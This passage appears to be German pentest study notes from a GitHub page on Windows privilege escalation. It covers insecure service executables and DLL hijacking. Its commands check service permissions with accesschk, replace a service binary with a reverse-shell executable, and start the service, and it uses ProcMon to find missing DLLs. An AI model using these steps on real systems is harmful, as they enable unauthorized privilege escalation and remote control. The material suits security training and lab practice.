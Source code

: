 <img src="https://user-images.githubusercontent.com/33549572/88439441-889a5800-ce0b-11ea-90a5-319672e9a088.png" alt="image-20200724133657422" style="zoom:67%;" />

#### Insecure Service Executables

Wenn ein Executable modifizierbar ist, kann es durch eine eigene EXE ausgetauscht werden kann. Dies kann verifiziert werden mittels:

```bash
accesschk /accepteula -quvw "C:\PathToExecutable"
```

<img src="https://user-images.githubusercontent.com/33549572/88439448-90f29300-ce0b-11ea-9c7c-25f2ff3e3821.png" alt="image-20200724134026353" style="zoom:80%;" />

Anschließend prüfen, ob der Service von jedem gestartet werden kann und in diesem Fall das Executable austauschen (zuvor Backup):

```bash
#Wer kann Service starten/stoppen?
accesschk /accepteula -uvqc filepermsvc
#Backup anlegen
copy "C:\PathToExecutable\filepermservice.exe" C:\temp
#Durch Reverse Shell ersetzen
copy /Y c:\reverse.exe "C:\PathToExecutable\filepermservice.exe"
#Service starten
net start filepermsvc
```

#### DLL Hijacking

DLL wird von einem Service geladen (bevorzugt mit hohen Privileges). Wenn sie mit einem absoluten Pfad geladen wird, könnte sie (sofern beschreibbar) möglicherweise für Privilege Escalation genutzt werden. Überlicherweise fehlt jedoch eine DLL, hier braucht der Benutzer Rechte, einen Ordner aus der PATH zu beschreiben, in welcher Windows nach DLLs sucht. **Leider sehr aufwendig/manuell!**

```bash
#Wer kann Service starten/stoppen?
accesschk /accepteula -uvqc filepermsvc
#Prüfen, wo das executable liegt
sc qc dllsvc
```

Nun das binary auf ein System kopieren, auf welchem man Admin Rechte hat. Hier ProcMon64 als Admin ausführen und das executable öffnen (zuvor Capture stoppen/clearen). Strg+L um Filter zu öffnen: "Process Name - is - executable". Anschließend:

![image-20200724135418513](https://user-images.githubusercontent.com/33549572/88439469-9ea81880-ce0b-11ea-9981-63b71a4d8613.png)

Nun in der CMD den Service starten

```bash
net start dllsvc
```

Nun nach "Result NAME NOT FOUND" schauen.

![image-20200724135635637](https://user-images.githubusercontent.com/33549572/88439478-a5cf2680-ce0b-11ea-98c9-65960337acf4.png)
